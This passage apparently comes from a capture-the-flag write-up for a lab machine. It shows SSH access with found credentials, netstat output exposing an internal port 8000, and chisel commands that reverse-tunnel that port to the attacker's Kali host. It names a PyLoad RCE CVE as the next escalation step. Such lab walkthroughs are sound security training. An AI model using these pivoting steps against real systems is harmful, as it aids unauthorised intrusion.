 ```
```

We had credentials for this user, and it works with `ssh`.

<figure><img src="../../.gitbook/assets/image (6) (12) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PyLoad --> CVE-2023-0297 RCE

When checking `netstat` output, we can see that port 8000 is open on the machine:

```
sau@pc:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

We can use `chisel` or `ssh` to port forward this and view it within our browser.

```bash
# within Kali
chisel server -p 5555 --reverse
# within host
chisel client 10.10.14.39 5555 R:8000:127.0.0.1:8000
```

Here, we will see a PyLoad instance.
